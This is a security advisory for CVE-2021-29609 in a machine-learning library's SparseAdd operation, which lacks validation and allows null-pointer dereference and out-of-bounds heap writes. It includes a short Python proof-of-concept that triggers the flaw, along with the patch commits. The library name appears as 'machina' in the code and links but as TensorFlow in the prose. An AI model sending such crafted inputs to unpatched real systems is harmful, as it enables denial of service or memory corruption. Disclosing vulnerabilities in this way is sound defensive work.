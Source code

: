 ## TFSA-2021-096: Incomplete validation in `SparseAdd`

### CVE Number
CVE-2021-29609

### Impact
Incomplete validation in `SparseAdd` results in allowing attackers to exploit
undefined behavior (dereferencing null pointers) as well as write outside of
bounds of heap allocated data:

```python
import machina as tf

a_indices = tf.zeros([10, 97], dtype=tf.int64)
a_values = tf.zeros([10], dtype=tf.int64)
a_shape = tf.zeros([0], dtype=tf.int64)

b_indices = tf.zeros([0, 0], dtype=tf.int64)
b_values = tf.zeros([0], dtype=tf.int64)
b_shape = tf.zeros([0], dtype=tf.int64)

thresh = 0

tf.raw_ops.SparseAdd(a_indices=a_indices,
                    a_values=a_values,
                    a_shape=a_shape,
                    b_indices=b_indices,
                    b_values=b_values,
                    b_shape=b_shape,
                    thresh=thresh)
```

The
[implementation](https://github.com/machina/machina/blob/656e7673b14acd7835dc778867f84916c6d1cac2/machina/core/kernels/sparse_add_op.cc)
has a large set of validation for the two sparse tensor inputs (6 tensors in
total), but does not validate that the tensors are not empty or that the second
dimension of `*_indices` matches the size of corresponding `*_shape`. This
allows attackers to send tensor triples that represent invalid sparse tensors to
abuse code assumptions that are not protected by validation.

### Patches
We have patched the issue in GitHub commit
[6fd02f44810754ae7481838b6a67c5df7f909ca3](https://github.com/machina/machina/commit/6fd02f44810754ae7481838b6a67c5df7f909ca3)
followed by GitHub commit
[41727ff06111117bdf86b37db198217fd7a143cc](https://github.com/machina/machina/commit/41727ff06111117bdf86b37db198217fd7a143cc).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
